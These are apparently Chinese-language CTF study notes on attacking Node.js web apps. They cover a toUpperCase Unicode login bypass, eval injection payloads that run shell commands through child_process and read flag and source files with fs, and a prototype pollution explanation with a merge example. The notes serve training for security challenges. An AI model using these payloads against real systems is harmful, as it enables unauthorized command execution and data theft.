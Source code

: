 `name!=='CTFSHOW' && item.username === name.toUpperCase() && item.password === password`

可以大小写绕过,也可以大小写漏洞
`在Character.toUpperCase()函数中，字符ı会转变为I，字符ſ会变为S。`
`在Character.toLowerCase()函数中，字符İ会转变为i，字符K会转变为k。`

### eval命令执行

web 335-?

- execSync
`require('child_process').execSync('cat fl00g.txt').toString()`
`require('child_process')['exe\cSync']('tac%20f*')` 感觉和ssti有点像了`.`和`['']`都可以

- spawnSync
`/?eval=require('child_process').spawnSync('ls').stdout.toString()`
`/?eval=require('child_process').spawnSync('cat',['fl001g.txt']).stdout.toString()`

fs模块
`/?eval=require('fs').readdirSync('.')`-->读取当前目录下的文件
`/?eval=require('fs').readFileSync('fl001g.txt','utf-8')`-->读取flag文件
`/?eval=__filename`-->当前模块的绝对路径
`/?eval=require('fs').readFileSync('/app/routes/index.js','utf-8')`

类似命令
间隔两秒执行函数：
`setInteval(some_function, 2000)`
两秒后执行函数：
`setTimeout(some_function, 2000);`
some_function处就类似于eval函数的参数

输出HelloWorld：
`Function("console.log('HelloWolrd')")()`
类似于php中的create_function

以上都可以导致命令执行

数组绕过

```js
a={'x':'1'}
b={'x':'2'}

console.log(a+"flag{xxx}")
console.log(b+"flag{xxx}")
```

### 原型链污染

原型污染是一种攻击，攻击者尝试修改对象的原型。如果成功，攻击者可能能够添加或修改对象的属性或方法
对于语句：`object[a][b] = value` 如果可以控制a、b、value的值，将a设置为`__proto__`，我们就可以给object对象的原型设置一个b属性，值为value。这样所有继承object对象原型的实例对象在本身不拥有b属性的情况下，都会拥有b属性，且值为value。

可能发生的位置

- 对象merge
- 对象clone（其实内核就是将待操作的对象merge到一个空对象中）

举个例子

```js
let o1 = {}
let o2 = JSON.parse('{"a": 1, "__proto__": {"b": 2}}')
merge(o1, o2)
console.log(o1.a, o1.b)

o3 = {}
console.log(o3.b)
```

这里要用json以免`__proto__`被解析成原型而不是键名